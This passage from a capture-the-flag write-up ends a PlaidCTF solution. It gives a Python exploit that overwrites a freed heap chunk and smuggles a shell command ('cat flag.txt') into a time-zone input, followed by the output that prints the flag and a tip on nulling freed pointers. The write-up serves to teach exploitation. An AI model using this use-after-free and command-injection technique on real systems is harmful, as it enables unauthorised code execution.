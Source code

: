```python   
do_send('')
do_recv('> ')
# Set a timezone
do_send('3')
do_recv(': ')
# 256 bytes of padding to reach the beginning of the old format chunk
# 16 bytes to overwrite the chunk's header
# The command injection
do_send(' '*256+' '*16+"%H'; cat flag.txt;'")
do_recv('> ')
# Print the time
do_send('4')
do_recv('> ')
r.interactive()
```

Once executed:

```
[snip]

1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
>

                                  %H'; cat flag.txt;'
Time zone set.
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
>
4
Your formatted time is: 00
PCTF{use_after_free_isnt_so_bad}
sh: 1: : Permission denied
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
>

```

Allways nullify a `free`'d pointer to avoid using it afterward!

[plaidctf]: http://www.plaidctf.com/
[strdup]: http://man7.org/linux/man-pages/man3/strdup.3.html
[strspn]: http://man7.org/linux/man-pages/man3/strspn.3.html
[setenv]: http://man7.org/linux/man-pages/man3/setenv.3.html
[system]: http://man7.org/linux/man-pages/man3/system.3.html
[fastbins]: http://man7.org/linux/man-pages/man3/mallopt.3.html
[dangling]: https://en.wikipedia.org/wiki/Dangling_pointer
